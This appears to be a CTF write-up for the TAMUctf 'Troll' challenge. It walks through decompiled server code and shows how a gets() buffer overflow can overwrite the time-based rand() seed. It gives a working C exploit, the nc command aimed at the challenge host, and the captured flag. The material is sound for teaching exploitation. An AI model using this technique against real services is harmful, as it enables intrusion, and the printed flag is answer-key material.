 # Troll

## Description

> There's a troll who thinks his challenge won't be solved until the heat death of the universe.
> 
> nc challenges.tamuctf.com 4765

Binary of the server is given.

## Solution

Let's reverse the code using [Ghidra](https://ghidra-sre.org/).
```c
undefined8 main(void)
{
  int iVar1;
  char local_98 [64];
  char local_58 [44];
  int local_2c;
  FILE *local_28;
  int local_1c;
  time_t local_18;
  int local_c;
  
  setvbuf(stdout,(char *)0x2,0,0);
  local_18 = time((time_t *)0x0);
  puts("Who goes there?");
  gets(local_58);
  printf("Welcome to my challenge, %s. No one has ever succeeded before. Will you be thefirst?\n",
         local_58);
  srand((uint)local_18);
  local_c = 0;
  while( true ) {
    if (99 < local_c) {
      puts("You\'ve guessed all of my numbers. Here is your reward.");
      local_28 = fopen("flag.txt","r");
      if (local_28 != (FILE *)0x0) {
        fgets(local_98,0x40,local_28);
        puts(local_98);
      }
      puts("Goodbye.");
      return 0;
    }
    iVar1 = rand();
    local_1c = iVar1 % 100000 + 1;
    puts("I am thinking of a number from 1-100000. What is it?");
    __isoc99_scanf(&DAT_001020a5,&local_2c);
    if (local_1c != local_2c) break;
    puts("Impressive.");
    local_c = local_c + 1;
  }
  puts("You have failed. Goodbye.");
  return 0;
}
```

So, after asking for the user's name, the program asks the user to guess 100 numbers from 1 to 100 000, which are chosen randomly at runtime by the program. If the user succeeds, then he gets the flag.


How can we predict the numbers chosen by the program?

### Pseudo random generators

On computers, it is actually difficult to create real randomness, therefore pseudo randomness is used instead. The way pseudorandom generator work is to feed it with a seed, which is hopefully really random. 

Here the randomness comes from the starting time of the program: the line ```local_18 = time((time_t *)0x0);``` retrieves the local time of the machine, then the line ```srand((uint)local_18);``` feeds the content of the variable to the pseudorandom generator (which is then used with the ```rand``` function to create the random numbers).

So if we can synchronise with the server, then we can retrieve the local time, send our own version of the pseudorandom generator (with the same seed as we have synchronised), and it would yield the exact same numbers.

However, tests show that synchronising exactly with the server is tricky business, even if the precision of the time function is of the order of the second.

So another option is to directly tamper with the pseudo random generator by injecting a seed of our choosing.

### Buffer overflow

Hopefully, the program asks for the user's name between the moment it reads the server time and the moment it feeds the seed into the pseudo random generator. Moreover, it uses ```gets```, which is vulnerable to buffer overflow. Therefore we can overflow the name buffer to fill the seed variable with a chosen value (let's take 0 for instance). This will allow us to predict the chosen values.

Variables are declared (and placed on the stack) in this order:
```c
int iVar1;
char local_98 [64];
char local_58 [44];
int local_2c;
FILE *local_28;
int local_1c;
time_t local_18;
int local_c;
```

The name buffer is ```local_58```, and the seed variable is ```local_18```, so we want to fill 44 + 4 + 8 + 4 random characters, and then 8 null bytes. So we can directly inject 68 null characters.

### Full exploit

The exploit is therefore as follow:
- overflow the buffer to fill the seed variable. This is done by injecting 68 null bytes.
- initialise a local pseudo random generator with seed 0, and feed the same random numbers to the program.

This can be performed with the following c program:
```c
#include <stdio.h> 
#include <stdlib.h> 
  
int main () 
{ 
    int i;
      
    srand(0); 

    for(i = 0; i<68; i++)
        printf("%c", 0);
    printf("\n");
    
    for (i = 0; i < 100; i++)
    {
        printf("%d\n", rand() % 100000 + 1); 
    }
      
    return 0; 
}
```
Compile the program with
```
gcc srand_attack.c -o srand_attack
```
Then run the program and pipe its output to the remote server
```
./srand_attack | nc challenges.tamuctf.com 4765
```

Flag: gigem{Y0uve_g0ne_4nD_!D3fe4t3d_th3_tr01L!}
